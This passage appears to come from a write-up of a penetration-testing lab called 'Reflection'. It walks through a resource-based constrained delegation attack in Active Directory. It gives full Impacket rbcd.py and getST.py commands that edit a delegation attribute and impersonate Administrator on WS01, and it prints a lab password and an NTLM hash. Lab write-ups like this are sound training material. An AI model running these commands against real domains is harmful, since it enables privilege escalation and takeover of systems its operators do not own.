 We edited the **`msDS-AllowedToActOnBehalfOfOtherIdentity`** property using **`rbcd.py`** from Impacket.

```
rbcd.py -action write -delegate-to "WS01$" -delegate-from "MS01$" -dc-ip 10.10.169.213 "Reflection/Georgia.Price:DBl+5MPkpJg5id"
```

<img src="attachments/248ef6696c69c6bcb383919e7656d02e.png" />


After adding the property, we were able to impersonate the administrator ticket on **WS01** using **`getST.py`**.

```
impacket-getST -spn 'cifs/WS01.reflection.vl' -impersonate Administrator -dc-ip 10.10.169.213 'Reflection/MS01$' -hashes ':97aba06a34bac078d0db8b28a1f0736f'
```

<img src="attachments/2be903fb6f26928523314aae9a98e9d8.png" />

We exported the ticket to launch the attack directly from the **Falcon** itself.

<img src="attachments/d4ecc4aa2f2e4b05a092f15951951947.png" />
